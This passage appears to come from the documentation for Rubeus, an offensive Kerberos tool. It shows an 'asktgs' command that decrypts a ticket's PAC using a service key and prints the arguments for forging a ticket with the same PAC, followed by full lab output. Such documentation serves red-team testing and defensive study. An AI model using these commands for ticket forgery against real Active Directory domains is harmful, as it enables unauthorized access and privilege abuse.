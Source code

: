 If the PAC can be decrypted (by using a user-to-user request or by passing the `/servicekey`) is it possible to print the arguments required to forge a ticket containg the same PAC values:

    C:\Rubeus>Rubeus.exe asktgs /service:roast/me /printargs /servicekey:9FFB199F118556F579B415270EE835005227FCBF29331DAC27C4397AC353F52B /ticket:doIF9DCCBfCgAwIBBaEDAg...(snip)...cGFjay5sb2NhbA==

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIF6jCCBeagAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          AgECoQ0wCxsFcm9hc3QbAm1l

      ServiceName              :  roast/me
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  20/07/2021 00:02:27
      EndTime                  :  20/07/2021 09:57:46
      RenewTill                :  26/07/2021 23:57:46
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  aes256_cts_hmac_sha1
      Base64(key)              :  U9Vnk0QnOmByQqF7i+5ujkinm9pRrevcRhw1sKVEVi4=
      Decrypted PAC            :
        LogonInfo              :
          LogonTime            : 19/07/2021 23:00:38
          LogoffTime           :
          KickOffTime          :
          PasswordLastSet      : 14/07/2021 02:07:12
          PasswordCanChange    : 15/07/2021 02:07:12
          PasswordMustChange   :
          EffectiveName        : harmj0y
          FullName             : Harm J0y
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 8
          BadPasswordCount     : 0
          UserId               : 1106
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS
          UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (528) NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-1